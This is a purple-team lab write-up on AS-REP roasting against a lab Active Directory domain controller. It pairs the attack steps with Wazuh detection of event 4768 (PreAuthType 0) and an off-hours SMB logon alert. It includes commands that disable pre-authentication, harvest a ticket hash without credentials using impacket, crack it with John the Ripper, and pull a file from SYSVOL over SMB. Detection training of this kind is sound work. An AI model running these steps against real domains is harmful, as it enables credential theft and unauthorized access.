# Lab 08 — Kerberos Authentication & AS-REP Roasting Incident Triage

*Part of the [Kerberos Attacks and Defense Labs](../README.md) — a complete purple-team investigation: Active Directory vulnerability injection, AS-REP roasting ticket extraction without pre-authentication (RFC 4120), offline password recovery, unauthorized SMB lateral access, SIEM telemetry correlation in Wazuh, and live incident response eviction.*

---

## 💡 Student Notes & Conceptual Breakthrough: Demystifying AS-REP Roasting

> *"Why does an attacker not need any password to perform AS-REP Roasting? And why is it considered one of the stealthiest initial access techniques in Active Directory?"*

To understand AS-REP Roasting, detection engineers must first examine how standard Kerberos authentication protects against password guessing:

### 1. The Normal Protection: Kerberos Pre-Authentication (RFC 4120)
In standard Active Directory authentication, the client computer requests a Ticket Granting Ticket (TGT) from the Key Distribution Center (KDC Port 88) using an `AS-REQ` message.
- **Pre-Authentication (`PA-ENC-TIMESTAMP`):** To prevent unauthenticated users from querying tickets, the client must first encrypt the current timestamp using an encryption key derived from their plaintext password (`PreAuthType = 2`).
- **KDC Verification:** The Domain Controller looks up the user's password hash in `NTDS.dit`, decrypts the timestamp, and verifies the time. If it matches, the KDC issues the TGT in an `AS-REP`.

### 2. The Misconfiguration: `DONT_REQ_PREAUTH`
In legacy networks, certain service accounts, Unix/Linux integrations, or misconfigured users have the setting **"Do not require Kerberos preauthentication"** (`DONT_REQ_PREAUTH` flag in `userAccountControl`) enabled:
- When pre-authentication is disabled, **anyone on the network can send an AS-REQ for that username with ZERO password or credentials**.
- The Domain Controller automatically returns an `AS-REP` response containing an encrypted ticket structure.
- Crucially, a portion of that `AS-REP` is **encrypted using the target user's password hash** (typically RC4-HMAC, etype 23).

### 3. Why It Is Stealthy
- **Zero Foothold Required:** An attacker does not need compromised credentials or domain access. They only need network connectivity to Port 88 (or a list of domain usernames).
- **Zero Account Lockout Risk:** The attacker captures the ciphertext over the network and cracks it completely offline using John the Ripper or Hashcat. Because the cracking happens on the attacker's GPU, Active Directory never records failed logon events (Event 4625 / 4771) and lockout counters never increment.
- **The Blue Team Tell:** In the Windows Security Event Log, AS-REP Roasting leaves a telltale signature in **Event ID 4768**: `Pre-Authentication Type = 0` (`PreAuthType: 0`) and `Result Code: 0x0`!

---

## Overview

This lab executes a complete **AS-REP Roasting (MITRE ATT&CK T1558.004)** lifecycle against an Active Directory Domain Controller (`WIN-SOCLAB`), captures the forensic telemetry across **Wazuh 4.14.5**, correlates the event chain from ticket harvesting to SMB lateral movement, and executes PowerShell incident response to terminate unauthorized access.

| # | Step | Event ID | Wazuh Rule | Level | Description |
|---|---|---|---|---|---|
| **1** | Vulnerability Injection | **4738** / **4720** | **100109** | 10 | Target account created and pre-authentication disabled (`DONT_REQ_PREAUTH`) |
| **2** | AS-REP Ticket Harvesting | **4768** | **100117** | 3 | TGT issued with `PreAuthType = 0` (no pre-authentication provided) |
| **3** | Offline Cryptanalysis | — | — | — | Encrypted AS-REP hash recovered offline via John the Ripper |
| **4** | SMB Lateral Infiltration | **4624** | **100115** | 12 | Network logon (`LogonType: 3`) via `NtLmSsp` during off-hours |
| **5** | Data Exfiltration | **5140** / **5145** | 60107 | 5 | Unauthorized access to `SYSVOL` and extraction of sensitive notes |
| **6** | Incident Response & Eviction | — | — | — | Active SMB session severed via PowerShell (`Close-SmbSession -Force`) |

### Lab Environment Architecture

- **Domain Controller:** Windows Server 2022 Datacenter (`WIN-SOCLAB.soclab.local` — `192.168.100.146`)
- **Attacker Host:** Kali Linux 2026.2 (`192.168.100.50`) running Impacket v0.14.0 and John the Ripper
- **SIEM Platform:** Wazuh 4.14.5 in Docker on Kali Linux (`the-server-agent` Agent 001)
- **Target Account:** `victim-asrep@soclab.local`

---

## Architectural Deep Dive: AS-REP Roasting Workflow

```
+==================================================================================================+
|                        AS-REP ROASTING ATTACK & DETECTION LIFECYCLE                              |
+==================================================================================================+

   +-------------------+                                               +----------------------+
   |    Kali Linux     |                                               |  Domain Controller   |
   | (192.168.100.50)  |                                               | (KDC Port 88 / 445)  |
   +-------------------+                                               +----------------------+
             |                                                                     |
   [STAGE 1: AS-REQ TICKET HARVESTING (PORT 88)]                                   |
             |  1. AS-REQ (victim-asrep, NO Pre-Authentication supplied)            |
             |-------------------------------------------------------------------->|
             |                                                                     | Checks AD account flags:
             |                                                                     | DONT_REQ_PREAUTH = TRUE!
             |                                                                     | Issues TGT without password.
             |                                                                     | Logs Event 4768:
             |                                                                     | PreAuthType: 0 (ANOMALY!)
             |                                                                     | EncryptionType: 0x17 (RC4)
             |  2. AS-REP: Returns TGT + Encrypted Data (keyed with password)      |
             |<--------------------------------------------------------------------|
             |                                                                     |
   [STAGE 2: OFFLINE PASSWORD CRACKING]                                            |
             |  3. Extracts $krb5asrep$23$... ciphertext                           |
             |  4. Runs John the Ripper / RockYou offline -> Recovers "Password123"|
             |                                                                     |
   [STAGE 3: LATERAL INFILTRATION (PORT 445 SMB)]                                  |
             |  5. SMB Session Setup (victim-asrep + recovered password)           |
             |-------------------------------------------------------------------->|
             |                                                                     | Logs Event 4624 (Type 3)
             |                                                                     | Fires Rule 100115 (L12)
             |  6. Mount \\WIN-SOCLAB\SYSVOL & Exfiltrate confidential notes        |
             |<--------------------------------------------------------------------|
             |                                                                     |
   [STAGE 4: INCIDENT RESPONSE & ACTIVE EVICTION]                                  |
             |                                                                     | Admin discovers session:
             |                                                                     | Close-SmbSession -Force
             |  7. TCP RST / Connection Terminated                                 |
             |<--------------------------------------------------------------------|
             |                                                                     | Enforce Pre-Auth ($false)
             |                                                                     | Rotate password & purge
```

---

## Phase 1: Vulnerability Setup & Active Directory Baseline

### Step 1: Active Directory Configuration — Disabling Kerberos Pre-Authentication

On the Domain Controller (`WIN-SOCLAB`), a test account was provisioned and explicitly configured with `DoesNotRequirePreAuth` set to `$true`:

```powershell
# 1. Create fresh target account
New-ADUser -Name "victim-asrep" -SamAccountName "victim-asrep" `
    -UserPrincipalName "victim-asrep@soclab.local" `
    -AccountPassword (ConvertTo-SecureString "Password123" -AsPlainText -Force) `
    -Enabled $true -PasswordNeverExpires $true

# 2. Disable Kerberos Pre-Authentication (Vulnerability Injection)
Set-ADAccountControl -Identity "victim-asrep" -DoesNotRequirePreAuth $true

# 3. Verify account baseline
Get-ADUser -Identity "victim-asrep" -Properties DoesNotRequirePreAuth, PasswordLastSet |
    Select-Object SamAccountName, DoesNotRequirePreAuth, PasswordLastSet
```



*Active Directory verification confirming `DoesNotRequirePreAuth: True` for `victim-asrep`.*

---

### Step 2: SIEM Baseline — Event 4720 Account Created Outside Business Hours (Rule 100109)

The creation of the account outside normal business hours triggered Wazuh custom Rule **100109** (Level 10 — "Account created outside business hours backdoor"):



---

### Step 3: Forensic Document Details — Event 4720 Account Creation Overview

Inspecting the Document Details view in Wazuh confirms the operator and initial User Account Control values:
- **`data.win.eventdata.samAccountName`:** `victim-asrep`
- **`data.win.eventdata.subjectUserName`:** `administrator`
- **`data.win.eventdata.newUacValue`:** `0x211`
- **`data.win.eventdata.primaryGroupId`:** `513` (Domain Users)



---

### Step 4: Forensic Document Details — Target User & Security Identifiers

The second document detail frame correlates target account parameters and domain mapping:
- **`data.win.eventdata.targetUserName`:** `victim-asrep`
- **`data.win.eventdata.userPrincipalName`:** `victim-asrep@soclab.local`
- **`data.win.eventdata.targetSid`:** `S-1-5-21-2255122900-...-1143`



---

### Step 5: Event Telemetry — Subject Identity Header

The Windows Security log message header identifies the administrative account that generated the user:



---

### Step 6: Event Telemetry — New Account Name & Domain Verification

The event message confirms the target identity in the `SOCLAB` domain:



---

### Step 7: Event Telemetry — SAM Account Name & UPN

Validation of account attributes recorded by Windows event auditing:



---

### Step 8: Event Telemetry — UserAccountControl Flags & Password Options

The security message details verify `Old UAC Value: 0x0`, `New UAC Value: 0x211`, confirming `'Normal Account' - Enabled` and `'Don't Expire Password' - Enabled`:



---

## Phase 2: Adversary Emulation — AS-REP Roasting & Cryptanalysis

### Step 9: Red Team — Harvesting AS-REP Ticket & Offline Recovery via John the Ripper

From Kali Linux (`192.168.100.50`), the adversary leveraged Impacket's `GetNPUsers.py` to harvest the ticket and recover the credential completely offline:

```bash
# 1. Harvest AS-REP ticket without credentials
impacket-GetNPUsers soclab.local/victim-asrep -no-pass -dc-ip 192.168.100.146 -format hashcat -outputfile /tmp/victim.hash

# 2. View captured ciphertext (RC4 etype 23)
cat /tmp/victim.hash

# 3. Crack hash with RockYou dictionary
john --wordlist=/usr/share/wordlists/rockyou.txt /tmp/victim.hash

# 4. Display recovered plaintext credentials
john --show /tmp/victim.hash
```



*Impacket requested the TGT with no password, dumped `$krb5asrep$23$...` hash, and John the Ripper recovered `Password123` in under 0.5 seconds.*

---

## Phase 3: Blue Team SIEM Telemetry — AS-REP Roasting Detection (Event 4768)

### Step 10: SIEM Discovery — Wazuh Custom Rule 100117 Alert Firing

In the Wazuh Threat Hunting dashboard, querying Event **4768** highlights custom Rule **100117** (Level 3 — "Kerberos: TGT ticket requested by victim-asrep") with 13 hits:



---

### Step 11: Forensic Smoking Gun — Event 4768 Document Details (PreAuthType: 0 & RC4 0x17)

Opening Document Details for the alert confirms the primary forensic smoking gun of AS-REP Roasting:
- **`data.win.eventdata.preAuthType`:** **`0`** *(Pre-authentication was NEVER supplied!)*
- **`data.win.eventdata.ticketEncryptionType`:** **`0x17`** *(RC4-HMAC cipher)*
- **`data.win.eventdata.serviceName`:** `krbtgt`
- **`data.win.eventdata.status`:** `0x0` *(Audit Success — KDC issued ticket without credentials)*
- **`data.win.eventdata.targetUserName`:** `victim-asrep`



---

### Step 12: Event Telemetry — Event 4768 Account Name & Realm

The event message text confirms TGT issuance for `victim-asrep` in realm `SOCLAB.LOCAL`:



---

### Step 13: Event Telemetry — Event 4768 Client Address & Port Correlation

Network telemetry identifies the client address `::ffff:192.168.100.50` (Kali Linux) on source port `33832`:



---

## Phase 4: Network Infiltration — SMB Lateral Access & Data Exfiltration

### Step 14: Red Team — Authenticating to Domain SMB Shares via impacket-smbclient

Armed with the recovered credentials, the adversary authenticated over SMB Port 445 to explore domain shares:

```bash
impacket-smbclient soclab.local/victim-asrep:'[REDACTED]'@192.168.100.146
```

Inside the interactive SMB prompt, domain shares were enumerated:
- `ADMIN$`
- `C$`
- `IPC$`
- `NETLOGON`
- `SYSVOL`



---

### Step 15: Red Team — Mounting SYSVOL & Exfiltrating Confidential Domain Notes

The adversary navigated to the `SYSVOL` directory and extracted confidential operational notes containing backup administrative keys:

```text
# use SYSVOL
# cd soclab.local
# ls
# get confidential_domain_notes.txt
# exit
$ cat confidential_domain_notes.txt
SUPER_SECRET: Backup admin key is [REDACTED_SECRET]
```



---

## Phase 5: Blue Team SIEM Telemetry — Unauthorized SMB Access (Event 4624)

### Step 16: SIEM Alert — Wazuh Rule 100115 Level 12 Off-Hours SMB Logon

When the adversary established the SMB session during off-hours, custom Rule **100115** elevated the detection to **Level 12 (Critical Alert)** across 30 events:



---

### Step 17: Forensic Document Details — Event 4624 Logon Telemetry (LogonType: 3, NtLmSsp)

Document Details confirm the lateral movement parameters:
- **`data.win.eventdata.logonProcessName`:** `NtLmSsp`
- **`data.win.eventdata.authenticationPackageName`:** `NTLM`
- **`data.win.eventdata.logonType`:** `3` (Network Logon)
- **`data.win.eventdata.ipAddress`:** `192.168.100.50`
- **`data.win.eventdata.keyLength`:** `128`

